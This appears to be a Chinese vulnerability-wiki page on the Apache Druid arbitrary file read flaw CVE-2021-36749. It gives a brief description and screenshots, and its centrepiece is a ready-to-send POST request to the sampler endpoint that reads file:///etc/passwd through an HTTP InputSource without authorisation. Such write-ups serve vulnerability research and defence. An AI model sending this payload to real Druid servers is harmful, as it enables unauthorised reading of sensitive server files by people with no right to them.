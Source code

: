 ```yaml
---
title: Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749 
---
```


# Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

<a-checkbox checked>Apache Druid</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://github.com/">title="Apache Druid"</a-button>
</a-checkbox>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1635581825740-fb87d406-6cf5-4c7f-b757-66e83d957346.png)

复现过程

![img](/assets/PeiQi-Wiki/img/1635581875371-557354af-d294-49ab-9483-79180aadfe65.png)

![img](/assets/PeiQi-Wiki/img/1635581900223-41408c4c-3b5c-4b66-b726-532835d0254d.png)

请求包为

```php
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![img](/assets/PeiQi-Wiki/img/1635582099772-ea2fb699-82d9-4df1-aea9-9ed1f9068ae3.png)